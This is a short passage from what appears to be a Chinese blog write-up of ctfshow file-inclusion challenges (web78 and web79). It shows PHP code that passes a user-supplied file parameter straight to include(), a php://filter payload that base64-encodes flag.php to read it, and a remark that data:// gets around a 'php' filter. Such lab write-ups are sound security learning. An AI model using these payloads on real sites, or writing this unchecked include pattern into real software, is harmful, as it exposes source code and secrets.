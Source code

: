 ```yaml
---
 layout:  post    # 使用的布局（不需要改）
 title:  从0开始学web之文件包含  # 标题 
 subtitle:  ctfshow   #副标题
 date:  2020-11-13  # 时间
 author:  yanmie    # 作者
 header-img: img/.jpg ##标签这篇文章标题背景图片
 catalog: true      # 是否归档
 tags:        
   - CTF

---
```


## web78~php伪协议

```php
 <?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

直接payload

```php
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

## web79~Data协议

```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

过滤了 php ,所以不能用 php 开头的伪协议了。

可以使用 data协议·。

* data:// — 数据（RFC 2397）
